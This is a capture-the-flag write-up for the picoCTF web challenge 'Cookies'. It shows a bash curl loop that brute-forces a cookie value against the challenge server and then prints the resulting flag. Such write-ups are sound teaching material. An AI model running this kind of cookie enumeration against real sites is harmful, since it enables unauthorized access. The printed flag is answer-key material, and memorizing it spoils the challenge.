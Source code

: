 # Cookies
### Author: madStacks
### Web Exploitation: 40 points

Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:64944/](http://mercury.picoctf.net:64944/)

---

The URL leads us to a basic input form, where we can input the name of a cookie. Snickerdoodle is the default entry, so lets type that in and press "Search". From there, we are led to a page (`/check`) that tells us `That is a cookie! Not very special though... `. Looking at the cookie for the page, we see a cookie called `Name` with a value of `0`. 

Based on the challenge description we need to figure out the value of this cookie that will give us the flag. This bash one-liner works fine:

`for i in {0..100}; do curl -b "name=$i" "http://mercury.picoctf.net:64944/check" -s | grep 'pico'; done`

Output:

```
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_cc9110ba}</code></p>
```

If you're curious, the correct value for me was 18.

flag: `picoCTF{3v3ry1_l0v3s_c00k135_cc9110ba}`
